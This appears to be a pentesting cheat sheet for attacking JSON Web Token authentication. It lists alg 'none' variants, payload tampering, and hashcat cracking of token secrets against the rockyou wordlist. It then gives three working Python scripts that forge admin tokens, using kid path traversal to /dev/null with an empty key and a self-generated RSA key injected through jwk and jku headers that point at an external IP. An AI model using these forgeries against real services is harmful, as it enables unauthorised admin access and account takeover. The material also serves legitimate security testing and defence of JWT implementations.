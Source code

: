
# JWT Checks

## None

Decode the "Header" and change the "alg" to be a variation of "none":

- None
- none
- NoNe
- NONE

Remove the signature but keep the second period.  
Tamper the payload to what you need.  

## Not checking Sig?

Decode and change the "Payload", the server may not be checking it anyway.  

## Crack with Hashcat

Copy the original JWT to a text file and run Hashcat against it:  

```bash
hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

## Specific Techniques

The following code exploits the ability to set the KID to a predictable value on a Linux machine
With `pyjwt` library  

```python3
"""
'kid' header stands for 'Key ID'.
The vulnerability comes from being able to set the kid  to a predictable value.
On a linux machine you can set the kid to '/dev/null' which returns nothing.
Then set the secret to a blank value and sign the jwt with it.
"""

#!/usr/bin/env python3
import jwt

secret = ''
payload = {
    "user":"admin"
}
alg = "HS256"
header = {
    "kid":"../../../../../../dev/null"
}

token = jwt.encode(payload, secret, algorithm= alg, headers=header)
print(token)
```

With built-in libraries:  

```python3
import hmac
import base64
import hashlib
import json

header = {
        "alg":"RS256",
        "kid":"../../../../../../../../dev/null"
}

key = ""

payload = {
        "user": "admin"
}

str = base64.urlsafe_b64encode(bytes(json.dumps(header), encoding='utf8')).decode('utf8').rstrip("=") + "." + base64.urlsafe_b64encode(bytes(json.dumps(payload), encoding='utf8')).decode('utf8').rstrip("=")

sig = base64.urlsafe_b64encode(hmac.new(bytes(key, encoding='utf8'), str.encode('utf8'),hashlib.sha256).digest()).decode('utf8').rstrip("=")

print(str + "." + sig)
```

Create keys with OpenSSL and setting 'e' and 'n'

```python3
import jwt
import OpenSSL
import json
import base64
import hashlib
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding

key = OpenSSL.crypto.PKey()
key.generate_key(type=OpenSSL.crypto.TYPE_RSA,bits=2048)
priv = key.to_cryptography_key()
pub = priv.public_key()

header = {
  "alg":"RS256",
  "jwk":  {
          "kty":"RSA",
          # "kid":"bilbo.baggins@hobbiton.example",
          "use":"sig"
          },
  "typ": "JWT",
  "jku": "http://157.245.154.213:8000/a/jwk"
}

e = pub.public_numbers().e
n = pub.public_numbers().n

header['jwk']['e'] = base64.urlsafe_b64encode((e).to_bytes((e).bit_length()//8+1,byteorder='big')).decode('utf8').rstrip('=')
header['jwk']['n'] = base64.urlsafe_b64encode((n).to_bytes((n).bit_length()//8+1,byteorder='big')).decode('utf8').rstrip('=')

payload = {
  "user": "admin"
}

token = jwt.encode(payload, priv, algorithm="RS256", headers=header)

print(f"Token: {token}\ne: {header['jwk']['e']}\nn: {header['jwk']['n']}")

```
